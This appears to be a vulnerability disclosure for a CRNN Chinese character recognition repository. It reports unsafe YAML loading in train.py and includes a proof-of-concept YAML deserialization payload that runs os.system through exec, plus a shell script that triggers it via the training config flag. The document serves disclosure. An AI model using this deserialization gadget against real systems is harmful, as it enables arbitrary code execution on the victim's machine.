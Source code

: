 ## ✍️ Description
A Chinese characters recognition repository based on convolutional recurrent networks.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
* create and run exploit.sh and exploit.yml as shown below
* vulnerable part of code
```
https://github.com/Sierkinhane/CRNN_Chinese_Characters_Rec/blob/stable/train.py#L26
```
* exploit.yml
```YAML
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
```
* exploit.sh
```bash
#!/bin/bash
git clone https://github.com/Sierkinhane/CRNN_Chinese_Characters_Rec.git
cd CRNN_Chinese_Characters_Rec
python3 train.py --cfg path_to_exploit.yml
```
![CRNN_Chinese_Characters_Rec_POC](https://user-images.githubusercontent.com/43377443/105637184-1e35a380-5e92-11eb-8064-356d5c6c9169.PNG)
